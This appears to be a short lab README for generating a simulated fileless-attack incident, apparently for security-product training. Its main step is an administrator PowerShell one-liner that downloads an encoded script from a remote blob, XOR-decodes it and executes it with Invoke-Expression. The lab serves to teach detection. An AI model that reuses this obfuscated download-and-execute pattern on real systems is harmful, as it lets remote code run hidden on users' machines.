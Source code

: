 ### Fileless Attack Incident

## Task 1 - Generating the incident

1. Switch to the client machine
2. Run Windows Powershell as administrator
3. Copy and paste the following text into the PowerShell window and press Enter to run
```console
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;$decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];$i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
4. Wait for the script to finish running. Notepad should open which you can close manually
![PowerShell Prompt](..//Images/PScode.png)

Hello